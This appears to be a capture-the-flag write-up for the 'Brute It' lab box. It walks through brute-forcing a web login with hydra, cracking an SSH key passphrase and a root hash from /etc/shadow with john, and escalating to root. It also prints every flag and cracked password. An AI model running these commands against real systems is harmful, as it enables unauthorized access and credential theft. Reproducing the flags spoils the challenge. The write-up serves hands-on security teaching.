

# Brute It

## Description

In this box you will learn about:

- Brute-force

- Hash cracking

- Privilege escalation

This is an easy box which you can learn/practice the skills above.

# [Task 2] Reconnaissance 

We start with an Nmap scan to find open ports to work with.

## Initial Scan

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
~~~

After the scan is done, we can answer the first few questions:

Open ports: `2`

SSH version: `OpenSSH 7.6p1`

Apache version: `2.4.29`

Linux ditribution: `Ubuntu`

## Web enumeration

Next we run gobuster on the webpage to find directories.

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkThroughs/thm/Brute_It]
└─$ gobuster dir -u http://$IP:80/ -w /usr/share/dirb/wordlists/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.37.84:80/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/23 08:56:26 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301)
~~~

Hidden directory: `/admin`

After it is done, we find a hidden directory. This directory is a login page and also we have a username which is `admin` that can found from the source code.

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkThroughs/thm/Brute_It]
└─$ curl http://$IP:80/admin/

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="styles.css">
    <title>Admin Login Page</title>
</head>
<body>
    

        <form action="" method="POST">
            <h1>LOGIN</h1>

            
            <label>USERNAME</label>
            <input type="text" name="user">

            <label>PASSWORD</label>
            <input type="password" name="pass">

            <button type="submit">LOGIN</button>
        </form>
    

    <!-- Hey john, if you do not remember, the username is admin -->       <--------------------
</body>
</html>
~~~

# [Task 3] Getting a shell

Now that we have a username, we can try to brute force the password. I use a popular tool called `hydra` which you can get it [here](https://github.com/vanhauser-thc/thc-hydra). First I checked the request form and the response to see the parameters to know how to send requests with hydra. You can check them from *network* section in inspect mode after sending a request. Now we can run hydra. I used rockyou wordlist which you can download [here](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwiH0dP-m5XzAhVGxhoKHb_XA_YQFnoECAYQAQ&url=https%3A%2F%2Fgithub.com%2Fbrannondorsey%2Fnaive-hashcat%2Freleases%2Fdownload%2Fdata%2Frockyou.txt&usg=AOvVaw3snAERl1mU6Ccr4WFEazBd).

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkThroughs/thm/Brute_It]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-23 09:20:05
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.37.84:80/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid
[80][http-post-form] host: 10.10.37.84   login: admin   password: xavier
1 of 1 target successfully completed, 1 valid password found
~~~

Hydra found us the password.

Admin's creds: `admin:xavier`

## Web Flag

After logging in to admin panel we are shown the web flag:

Web flag: `THM{brut3_f0rce_is_e4sy}`

## User Flag

There is also a link to an RSA private key. I saved it in "id_rsa". Unfortunately we need a password to use it. First we need to change it to a format which can be crackable by `john`. There is an additional tool called `ssh2john` which converts the private key to a format that john can crack it. If you don't have it, you can get it [here](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py). After changing the format, we run john to crack it using rockyou wordlist.

~~~                             
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Brute_It/files]
└─$ locate ssh2john
/usr/share/john/ssh2john.py
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Brute_It/files]
└─$ /usr/share/john/ssh2john.py id_rsa > rsa_hash
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Brute_It/files]
└─$ john rsa_hash --wordlist=/usr/share/wordlists/rockyou.txt                                
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)
Warning: Only 1 candidate left, minimum 4 needed for performance.
1g 0:00:00:05 DONE (2021-09-25 06:07) 0.1808g/s 2593Kp/s 2593Kc/s 2593KC/s *7¡Vamos!
Session completed
~~~

RSA key passphrase: `rockinroll`

Now that we have the password for the RSA key, we can login via SSH. We just need to set the key permission to 600, cuz simply, that's how they like to be treated. Btw, we have the username (`john`) which we found in the source code of the login page. After logging in, we can see the user flag in john's home directory:

~~~
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Brute_It/files]
└─$ chmod 600 id_rsa 
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Brute_It/files]
└─$ ssh -i id_rsa john@$IP
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Sep 25 11:16:40 UTC 2021

  System load:  0.0                Processes:           99
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 37%                IP address for eth0: 10.10.37.84
  Swap usage:   0%

63 packages can be updated.
0 updates are security updates.

Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$ id
uid=1001(john) gid=1001(john) groups=1001(john),27(sudo)
john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt 
THM{a_password_is_not_a_barrier}
~~~

User flag: `THM{a_password_is_not_a_barrier}`

# [Task 4] Privilege Escalation

## Root's Password

Now, we need to escalate our privileges. I ran `sudo -l` and I can run `cat` command with sudo and no password. We can just use this permission to read the root flag file, but the challenge is to gain root access. To do so, we need to have the root password. All the password hashes are saved in `/etc/shadow` which we can be read with having this permission:
~~~
john@bruteit:~$ sudo cat /etc/shadow | head -n1
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
~~~

I saved the password hash in "root.hash" and cracked it using john and rockyou wordlist:
~~~
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Brute_It/files]
└─$ cat root.hash 
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.

┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Brute_It/files]
└─$ john root.hash --wordlist=/usr/share/wordlists/rockyou.txt                               
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football         (root)
1g 0:00:00:00 DONE (2021-09-25 08:05) 3.448g/s 1765p/s 1765c/s 1765C/s 123456..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~

Root's password: `football`

## Root Flag

Now we can simply switch to root and read the root flag:

~~~
john@bruteit:~$ su root
Password: 
root@bruteit:/home/john# id
uid=0(root) gid=0(root) groups=0(root)
root@bruteit:/home/john# cd /root
root@bruteit:~# ls
root.txt
root@bruteit:~# cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
~~~

Root flag: `THM{pr1v1l3g3_3sc4l4t10n}`

# D0N3! ; )
Thanks to the creators of this box and hope you had fun!

Have a good one! : )
